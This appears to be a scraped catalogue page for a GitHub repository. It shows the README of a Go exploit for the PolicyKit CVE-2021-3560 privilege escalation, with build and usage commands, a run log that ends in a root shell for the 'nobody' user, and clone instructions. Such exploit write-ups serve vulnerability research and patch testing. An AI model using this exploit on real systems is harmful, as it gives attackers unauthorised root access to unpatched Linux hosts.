# CVE-2021-3560-Authentication-Agent

PolicyKit CVE-2021-3560 Exploit (Authentication Agent)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/RicterZ](https://github.com/RicterZ) |
| Url      | [https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent](https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent)                                               |
| Stars    | 113                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

PolicyKit CVE-2021-3560 Exploit  (Authentication Agent)
====

### Technology Details
Blog posts about this exploit : 
- https://ricterz.me/posts/2022-04-28-a-new-exploit-method-for-cve-2021-3560-polkit-linux-privilege-escalation.txt
- http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation

## Build & Usage
```
nobody@test:/tmp/CVE-2021-3560$ go build
nobody@test:/tmp/CVE-2021-3560$ ./CVE-2021-3560 ./pwnkit.service
=== polkit CVE-2021-3560 exploit - RicterZ @ 360 Noah Lab ===
pid-267920 - [*] Registering PolicyKit authentication agent ...
...
pid-267915 - [-] Exploit failed, please try again
nobody@test:/tmp/CVE-2021-3560$ ./CVE-2021-3560 ./pwnkit.service
=== polkit CVE-2021-3560 exploit - RicterZ @ 360 Noah Lab ===
pid-267963 - [*] Registering PolicyKit authentication agent ...
pid-267963 - [*] Authentication agent main loop running ...
pid-267968 - [*] Registering PolicyKit authentication agent ...
pid-267973 - [*] Registering PolicyKit authentication agent ...
pid-267968 - [*] Authentication agent main loop running ...
pid-267973 - [*] Authentication agent main loop running ...
pid-267963 - [*] Starting systemd service 'pwnkit.service' ...
pid-267968 - [*] Enabling systemd unit file '/tmp/pwnkit.service' ...
pid-267973 - [*] Reloading systemd daemon ...
pid-267963 - [+] Received authentication request for action: 'org.freedesktop.systemd1.manage-units'
pid-267963 - [*] Cookie: 100-9b8357901e7f4f4847cbd15a3d191cc4-1-10167c9df23ebe27c57534750f48ef7a
pid-267968 - [+] Received authentication request for action: 'org.freedesktop.systemd1.manage-unit-files'
pid-267968 - [*] Cookie: 101-48273279f75230e86c9ad5df212ee54d-1-a86a81adcf07ad16ab6017a21235da80
pid-267973 - [+] Received authentication request for action: 'org.freedesktop.systemd1.reload-daemon'
pid-267973 - [*] Cookie: 102-3fb9b174b470f5d04881cbfeb16a60d0-1-8a36d3a7f9aca22af0a0f8562f20dbe2
pid-267958 - [+] File exists, popping root shell ...
pwned-5.0# id
uid=65534(nobody) gid=65534(nogroup) euid=0(root) egid=0(root) groups=0(root),65534(nogroup)
```

## License
Apache License



## Get the content

```
git clone https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent
cd CVE-2021-3560-Authentication-Agent
```

{% embed url="https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent" %}

<figure><img src="https://avatars.githubusercontent.com/u/5282759?v=4" alt=""><figcaption><p>RicterZ</p></figcaption></figure>
